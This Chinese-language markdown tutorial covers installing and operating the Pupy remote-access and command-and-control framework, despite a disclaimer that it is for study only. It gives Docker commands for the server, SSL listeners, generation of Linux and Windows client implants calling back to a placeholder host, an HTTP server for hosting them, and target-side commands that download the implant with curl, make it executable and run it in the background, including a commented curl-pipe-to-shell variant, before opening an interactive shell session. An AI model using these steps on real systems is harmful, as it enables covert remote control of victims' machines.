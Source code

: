 # pupy

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/n1nj4sec/pupy

**相关文章**
- [pupy安装与使用](https://mp.weixin.qq.com/s/7VyJHHvUHITY61RC8VveOQ)
- [Pupy利用分析——Windows平台下的功能](https://3gstudent.github.io/Pupy%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90-Windows%E5%B9%B3%E5%8F%B0%E4%B8%8B%E7%9A%84%E5%8A%9F%E8%83%BD)

---

## 安装

**Docker 安装**
```bash
curl -fsSL https://get.docker.com | bash -s docker --mirror Aliyun
docker pull alxchk/pupy:unstable

systemctl stop systemd-resolved

# 端口映射
docker run -d --name pupy-server -p 2022:22 -p 53:53 -p 80:80 -p 443:443 -v /tmp/projects:/projects alxchk/pupy:unstable

# ssh-keygen 免交互
# yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
# yes | ssh-keygen -t rsa -N "" -f ~/.ssh/id_rsa_pupy
yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
cp ~/.ssh/id_rsa_pupy.pub /tmp/projects/keys/authorized_keys

# ssh首次交互免输入yes
ssh -i ~/.ssh/id_rsa_pupy -p 2022 -o stricthostkeychecking=no pupy@127.0.0.1
```

---

## 使用

**进入 pupy 后**
```bash
# 监听器
listen -r ssl
listen -a ssl 53

# 生成 shell
gen -f client -O linux -A x64 connect --host x.x.x.x:53 -t ssl
gen -f client -O windows -A x64 connect --host x.x.x.x:53 -t ssl
```

```bash
# 进容器起py服务器
docker exec -it pupy-server /bin/sh
cd /projects/default/output/
python -m SimpleHTTPServer 8989
```

**目标机器上线**
```bash
curl http://x.x.x.x:8989/pupyx64.0E8pp4.lin -o test
chmod +x test
nohup ./test &

# curl http://x.x.x.x:8989/test|sh
```

**pupy 上查看**
```bash
# 成功连接后
sessions

sessions -i [id]
shell
```
